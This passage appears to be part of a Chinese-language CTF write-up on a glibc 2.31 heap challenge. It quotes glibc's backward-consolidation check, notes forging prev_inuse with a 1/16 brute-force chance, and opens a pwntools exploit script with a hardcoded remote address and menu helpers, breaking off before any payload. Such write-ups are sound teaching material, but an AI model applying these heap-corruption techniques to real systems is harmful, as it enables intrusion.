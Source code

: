 此外设置 prev_inuse 为 1，避免检查。

```c
/* consolidate backward */
if (!prev_inuse(p)) {
  prevsize = prev_size (p);
  size += prevsize;
  p = chunk_at_offset(p, -((long) prevsize));
  if (__glibc_unlikely (chunksize(p) != prevsize))
    malloc_printerr ("corrupted size vs. prev_size while consolidating");
  unlink_chunk (av, p);
}
```

爆破概率 1/16，（之前想过直接负溢到 data 段的 stdout，不过这个速度...应该很难了

```python
from pwn import *

elf_path = "./pwn4"
libc_path = "./libc-2.31.so"
ip = "121.40.89.206"
port = "21795"
content = 1

context(os='linux',arch='amd64',log_level='debug')
if content == 1:
    context.terminal = ['tmux','splitw','-h']
    p = process(elf_path)
    # gdb.attach(p)
    # p = gdb.debug(elf_path)
    # pause()

else:
    p = remote(ip, port)

r = lambda : p.recv()
rx = lambda x: p.recv(x)
ru = lambda x: p.recvuntil(x)
rud = lambda x: p.recvuntil(x, drop=True)
s = lambda x: p.send(x)
sl = lambda x: p.sendline(x)
sa = lambda x, y: p.sendafter(x, y)
sla = lambda x, y: p.sendlineafter(x, y)
close = lambda : p.close()
debug = lambda : gdb.attach(p)
shell = lambda : p.interactive()

# ----------------------------------------------------------


def add(index,size,content):
    sla(b'is:', b'1')
    sla(b'x:', str(index).encode())
    sla(b'e:', str(size).encode())
    sla(b't:', content)


def delete(index):
    sla(b'is:', b'2')
    sla(b'?', str(index).encode())


def edit(index,content):
    sla(b'is:', b'3')
```